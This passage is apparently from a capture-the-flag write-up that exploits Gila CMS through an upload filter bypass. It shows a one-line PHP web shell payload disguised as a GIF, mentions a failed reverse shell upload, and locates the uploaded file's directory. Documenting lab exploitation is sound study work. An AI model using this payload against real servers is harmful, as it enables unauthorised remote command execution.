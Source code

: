 ![](assets/CMesS_assets/Pasted%20image%2020230521113013.png)

## Exploitation

- we can see the version of the Gila CMS running

![](assets/CMesS_assets/Pasted%20image%2020230521113200.png)

- so now we can search for exploits for this CMS and we found one at [https://rastating.github.io/gila-cms-upload-filter-bypass-and-rce/](https://rastating.github.io/gila-cms-upload-filter-bypass-and-rce/)
- Following the steps in the exploit, we create a file test.gif with the contents and upload it in the media 
```
GIF89a; <?=`$_GET[1]`?>
```

![](assets/CMesS_assets/Pasted%20image%2020230521115407.png)

```ad-note
I attempted uploading a php reverse shell file but the file format wasn't acceptable
```
- we can view the image in the media to know the directory our .gif file will be located and we can see below it is stored at `/tmp/media_thumb`
